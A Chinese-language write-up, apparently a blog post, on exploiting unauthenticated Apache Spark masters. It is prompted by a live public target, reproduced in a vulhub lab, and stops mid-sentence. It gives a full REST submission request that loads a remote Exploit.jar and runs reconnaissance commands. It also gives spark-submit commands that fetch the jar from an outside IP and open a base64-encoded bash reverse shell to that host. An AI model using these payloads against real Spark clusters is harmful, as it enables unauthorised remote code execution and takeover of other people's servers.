




同事扫到一个Apache Spark未授权页面，以此做为开始  

目标地址：  http://182.61.xxx.xxx:8080/  
网上搜索针对Apache Spark的漏洞复现，直接打失败，开始调试之旅  

本地搭建环境，使用此项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，如下图所示，搭建成功  
  
访问端口6066，能够成功访问，如下图  
  
而目标不能访问，说明目标关闭了端口6066，漏洞复现中讲述还可以通过7077端口利用漏洞，且目标没关闭7077端口  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
获得响应如下  
  
然后访问
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
替换其中的driverId，成功获得执行结果，如下图  
  
这里有一个细节需要注意："id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"，id_部分，我这里更改了Exploit.jar，由,分割变为_分割，用于后面反弹shell  

通过端口7077执行命令  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.144.55:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
还是上述查看方式，成功执行命令  

通过端口7077反弹shell  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.144.55:8000/Exploit.jar "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
```
